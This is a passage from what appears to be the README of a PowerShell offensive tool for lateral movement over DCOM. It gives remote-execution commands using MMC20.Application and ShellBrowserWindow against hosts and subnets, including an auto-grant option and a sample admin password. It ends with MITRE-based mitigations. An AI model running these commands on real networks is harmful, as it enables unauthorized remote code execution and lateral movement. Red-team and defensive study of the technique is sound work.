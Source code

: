             PS> Invoke-ExecutionCommand -ObjectName "MMC20.Application" -Commands @( @{ObjectPath="Document.ActiveView.ExecuteShellCommand"; Arguments=@('cmd.exe',$null,"/c calc","Minimized")}) -HostList "10.211.55.4" -SkipPermissionChecks -Verbose

#### Invoke-RegisterRemoteSchema

Invoke-RegisterRemoteSchema function allows to executes commands via the following DCOM objects using the logged-on user or provided credentials:
* ShellBrowserWindow
* ShellWindows
* Internet Explorer
* ielowutil.exe

**Note:** These DCOM-objects doesn't need any access to local machine hive. they can foothold with any user that can access the remote machine!

* Examples:
  1. Executes `cmd /c calc` command on `10.211.55.1/24` range using the current logged-on session, and grant privileges if is needed

            PS> Invoke-RegisterRemoteSchema -HostList "10.211.55.1/24" -Command "cmd /c calc" -AutoGrant -Verbose

  2. Executes `cmd /c calc` command on `10.211.55.4` remote machine using provided credentials

            PS> Invoke-RegisterRemoteSchema -HostList "10.211.55.4" -Command "cmd /c calc" -Username "Administrator" -Password "Aa123456!" -Verbose

## Future work
* Analyze and change firewall rules remotely



## Mitigation and Recommendations

MITRE Technique: [**T1021.003 - Remote Services: Distributed Component Object Model**](https://attack.mitre.org/techniques/T1021/003/)

### Prevention

* Disable remote DCOM access
  * considerations:
    - Third-party applications dependent on DCOM
    - Remote system management using "Windows Management Instrumentation" will not work
    - Possible problems with COM objects
* Disallow remote registry access if not required

  **Both options are hard to implement in an enterprise environment without an impact on availability.**

  **Nevertheless, it can be a good hardening option for endpoints that don't need domain remote management. (e.g. standalone endpoints)**

* Enable Domain and Private Profiles in Windows Defender Firewall
  * The DVS tool bypasses this security control by creating a rule in the firewall to allow any Dynamic RPC connection
